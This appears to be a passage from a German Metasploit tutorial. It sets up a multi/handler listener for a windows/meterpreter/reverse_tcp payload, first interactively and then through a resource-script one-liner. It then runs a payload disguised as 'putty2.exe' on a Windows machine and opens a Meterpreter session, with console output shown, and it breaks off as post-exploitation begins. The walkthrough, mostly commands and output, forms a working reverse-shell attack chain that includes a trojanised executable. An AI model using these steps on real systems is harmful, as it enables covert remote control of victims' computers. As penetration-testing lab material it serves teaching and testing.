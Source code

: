 Hinweis: Wenn Windows Defender aktiv ist dann wird die Datei sofort nach dem Download entfernt.



## Metasploit Multihandler

```sh
$ msfconsole
msf6 > 
```

```
use exploit/multi/handler
show options
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.178.81
set lport 8080
run
```

oder msf Resource Script:

```sh
echo "use exploit/multi/handler\nset payload windows/meterpreter/reverse_tcp\nset lhost 192.168.178.81\nset lport 8080\nrun\n" > msf_macro_tcp_8080.rc
```

```bash
$ msfconsole -r msf_macro.rc
```

msf meldet die Verbindung:

```
[*] Started reverse TCP handler on 192.168.178.81:8080
```

`putty2.exe` Programm unter Windows starten:


```
[*] https://192.168.178.81:443 handling request from 192.168.178.75; (UUID: xdqf2f0v) Redirecting stageless connection from /4TwWT3e8yHBEwUXAJBpalQC5T87LkXCeDkyDP_vZ592t63cCMV7art with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://192.168.178.81:443 handling request from 192.168.178.75; (UUID: xdqf2f0v) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (192.168.178.81:443 -> 192.168.178.75:57710) at 2021-06-29 09:21:24 -0400

meterpreter > 

```



# Arbeiten mit meterpreter

**Systeminformation** anzeigen:
